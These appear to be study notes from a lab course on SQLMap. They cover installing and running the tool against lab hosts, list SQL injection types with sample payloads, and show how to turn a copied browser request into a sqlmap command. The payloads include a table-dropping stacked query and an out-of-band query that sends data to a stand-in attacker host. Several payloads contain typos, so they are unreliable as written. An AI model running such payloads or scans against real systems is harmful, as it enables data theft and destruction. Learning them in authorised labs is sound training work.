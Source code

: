 
To use SQLMap we can use : `python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'`
To install SQLMap : 
``` shell
# For Linux
sudo apt install sqlmap

#For Windows
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
```

## Types of SQLi
- **Boolean-based Blind SQL Injection** : `AND 1=1`
- **Error-based SQL Injection** : `AND GTIF_SUBSET(@@version,0)`
- **Union query based** : `UNION ALL SELECT 1,@@version,3`
- **Stacked Queries** : `; DROPE TABLE users`
- **Time-based Blind SQL Injection** : `AND 1=IF(2>1,SLEEP(5),0)`
- **Inline Queries** : `SELECT(SELECT @@version) from`
- **Out-of-band SQL Injection** : `LOAD_FILE(CONCAT('\\\',@@version,'.attacker.com\\README.txxt'))`

## Levels of Help Message Listing
- Basic Listing : `sqlmap -h`
- Advanced Listing: `sqlmap --hh`

Command used to run SQLMap : `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`

> Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.

## cURL Commands
One of the best and easiest ways to properly set up an SQLMap request against the specific target (i.e., web request with parameters inside) is by utilizing `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools: ![Network panel showing a GET request to www.example.com with a 404 status, and a context menu with options like 'Copy as cURL'.](https://academy.hackthebox.com/storage/modules/58/M5UVR6n.png)

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:

Running SQLMap on an HTTP Request

```shell-session
ShibuShivansh@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`).

## GET/POST Requests
For GET Request, we need to run the command : `sqlmap --url "https://domain.com"`
